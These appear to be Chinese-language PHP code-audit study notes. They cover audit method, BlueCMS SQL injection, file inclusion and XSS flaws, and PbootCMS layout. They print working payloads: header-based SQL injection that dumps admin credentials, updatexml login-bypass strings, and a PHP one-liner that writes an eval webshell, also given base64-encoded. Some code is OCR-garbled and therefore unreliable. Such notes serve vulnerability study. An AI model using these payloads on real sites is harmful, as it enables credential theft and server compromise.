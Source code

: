 ## 审计方法

1、定位敏感关键字、回溯参数传递过程。（不要通读代码，快速定位，无法挖掘到逻辑漏洞）

2、定位敏感功能点，通读功能点代码（黑盒测试+白盒测试）

* 系统重装
* 文件上传
* 文件管理功能
* 登录认证
* 密码找回
* 订单支付

3、审计软件

* Seay
* rips

4、 全文代码通读审计（thinkphp、yii）

（1）入口点：index.php

（2）xdebug、跟踪调试

## BlueCMS代码审计之sql注入漏洞

1、文件注入点

* common.fun.php  $\rightarrow$  getip() $\rightarrow$ CLIENT-IP:8.8.8.8

2、注入语句

* select concat(admin_name,":",pwd) from blue_admin;
* exp:8.8.8.8',1)(".2,2'1,2', (select concat(admin_name,':',pwd) from blue _admin), "1560502189', '8.8.8.8

![](picture/20-1.png "留言板SQL注入")

## BlueCMS代码审计之文件包含漏洞

报错、包含日志

一句话木马：

```php
<?php @fputs(fopen('liusha.php';w),"<?php @eval($_POST['x'T);?>");?>
<?php @fputs(fopen(base64_decode(bGl1c2hhLnBocA==),w),
             base64_decode(PD9waHAgQGV2YWwoJF9QT1NUWyd410pOz8+'));?> 
```

## BlueCMS代码审计之XSS漏洞

1、对于资料参数没有进行过滤，可以接在未过滤邮箱等字符串后。

```php
<script>alert(1)</script>
```

```php
$file=addslashes($_GET['r']);          //接收文件名
$action=$file=="?'index':$file;        //判断为空或者等于
include('files/.$action..php');        //载入相应文件
```

2、cookies欺骗、越权漏洞

```php
$user=$_COOKIE['user'];
    if ($user == ""){
        header("Location: ?r=login");
        exit;
}
```

3、login.php登录绕过

```mysql
1' or updatexml(1,concat((select concat(Ox7e,password) from manage)),0) #
1' or updatexml(1,concat((select concat(password,Ox7e) from manage)),0) #
```

## 审计MVC架构

1、目录结构（PbootCMS-V1.2.1）

```
|--apps     应用程序
|  |--admin    后台模块
|  |--api      api模块
|  |--common   公共模块
|  |--home     前台模块
|--config      配置文件
|  |--config.php    配置文件
|  |--database.php  数据库配置文件
|  |--route.php     用户自定义路由规贝
|--core   框架核心
|  |--function        框架公共函数库
|  |  |--handle.php     助手函数库
|  |  |--helper.php     助手函数库
|--template   html模板
|--admin.php  管理端入口文件
|--api.php    api入口文件
|--index.php  前端入口文件
```







